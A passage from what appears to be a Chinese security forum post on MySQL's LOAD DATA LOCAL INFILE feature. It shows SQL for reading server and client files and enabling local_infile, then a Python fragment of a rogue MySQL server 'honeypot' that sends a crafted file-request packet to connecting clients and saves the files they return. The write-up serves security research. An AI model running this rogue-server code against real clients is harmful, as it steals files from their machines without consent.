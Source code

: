 读取服务端上的文件内容存入表中：

```php
load data infile "文件" into table "表名" fields terminated by '分隔符';
```

读取客户端上的文件内容存入表中：

```php
load data local infile "文件" into table "表名" fields terminated by '分隔符';
```

查看LOAD DATA LOCAL INFILE 功能开关状态

```php
show global variables like 'local_infile';
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-d741763c9134dec69621b57468402d7555a1f7be.png)  
将LOAD DATA LOCAL INFILE 功能打开

```php
set global local_infile=1;
```

蜜罐
--

利用代码伪造连接信息

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-6f26c5e8e2ac2a7069eb1719ed403aa387fc595c.png)  
尝试读取文件信息

```php
 if 'SET NAMES utf8' in res4:
                        conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")
                        res5 = conn.recv(9999)
                        if 'SET character_set_results=NULL' in res5:
                            conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")
                            conn.close()
                    else:
                        conn.close()
                else:
                    conn.close()
            else:
                conn.close()
        else:
            try:
                wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
                conn.sendall(wantfile)
                content = conn.recv(99999999)
                # print(len(content))
                conn.close()
                if len(content) > 4:
                    if 'PFRO' in filename:
                        with open(logpath + "/PFRO.log", "w") as f:
                            f.write(content)
                            f.close()
                        return True
                    else:
                        with open(logpath + "/" + filename.replace("/", "_").replace(":", ""), "w") as f:
                            f.write(content)
                            f.close()
                        return True
                else:
                    return False
            except Exception as e:
                print (e)
```